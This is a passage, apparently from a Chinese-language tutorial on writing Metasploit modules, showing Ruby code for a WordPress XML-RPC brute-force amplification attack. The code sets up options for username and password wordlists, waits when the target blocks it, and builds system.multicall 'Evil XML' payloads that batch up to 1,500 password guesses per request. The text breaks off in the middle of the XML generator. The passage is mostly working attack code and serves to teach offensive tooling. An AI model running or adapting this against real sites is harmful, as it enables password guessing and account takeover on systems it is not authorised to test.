 ```
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end
end 
```

+   将用户名和密码列表读取为数组

```
 def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end 
```

+   构建/生成 XML 文件，使用一个用户并围绕密码进行迭代

```
 #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
```